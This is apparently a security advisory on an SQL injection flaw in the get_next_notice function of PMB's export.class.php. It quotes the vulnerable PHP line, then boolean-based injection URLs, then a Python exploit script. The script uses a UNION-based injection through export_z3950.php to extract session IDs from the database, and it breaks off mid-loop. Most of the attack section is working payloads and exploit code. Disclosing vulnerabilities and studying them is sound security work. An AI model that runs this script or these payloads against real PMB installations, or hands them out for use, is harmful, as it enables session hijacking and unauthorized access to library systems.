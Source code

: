 ```php
```

The **get_next_notice** function in **/admin/convert/export.class.php** is vulnerable to SQL injections due to the insecure concatenation of the **notice_id** in the construction of an SQL query.

```php
297 if ($this->current_notice != -1) {
299   $requete = "select * from notices where notice_id=".$this->notice_list[$this->current_notice];
300   $resultat = pmb_mysql_query($requete);
301   $res = pmb_mysql_fetch_object($resultat);
			
303   if (!$res)
304     return false;
```

To verify the existence of this vulnerability, a boolean-based SQL injection technique can be used:

```text
True condition (content is returned):
http://host/pmb/admin/convert/export_z3950.php?command=get_notice&query=9999%20or%201=1%20limit%201

False condition (returned content is empty):
http://host/pmb/admin/convert/export_z3950.php?command=get_notice&query=9999%20or%201=2%20limit%201
```

After verifying the existence of the vulnerability, the session cookies are extracted from the database with the following script (using an union-based SQL injection technique).

```python
#!/usr/bin/env python3
import requests
import sys
import re
import random
import argparse

def exploit(notice_id):
    for i in range(30,70):
        columns = "1," * i
        url = "{0}/admin/convert/export_z3950.php?command=get_notice&query={1}%20UNION%20SELECT%20(select+group_concat('(',SESSID,')','\\n')+from+sessions),{2}%20limit%201,1".format(args.pmb_url, notice_id, columns[:-1])
        headers = {"Connection": "close"}
        r = requests.get(url, headers=headers)
        sessid_list = re.findall('\((\d{10})\)', r.text)
        if sessid_list:
            print(sessid_list)
            return True
    if not sessid_list:
        return False

if __name__ == '__main__':
    parser = argparse.ArgumentParser(prog='', description='SQL Injection in export_z3950.php (Steal PhpMyBibli-SESSID)', epilog='Text at the bottom of help')
    parser.add_argument('pmb_url', type=str, help='PMB\'s URL (e.g. http://127.0.0.1/pmb or http://127.0.0.1)')
    parser.add_argument('--notice_id', type=str, help='Custom notice id (if undefined, fuzzing will be performed)',required=False)
    parser.add_argument("--verbose", help="Increase output verbosity", action="store_true")
    args = parser.parse_args()

    if args.notice_id:
        exploit(args.notice_id)

    if not args.notice_id:
        while True:
```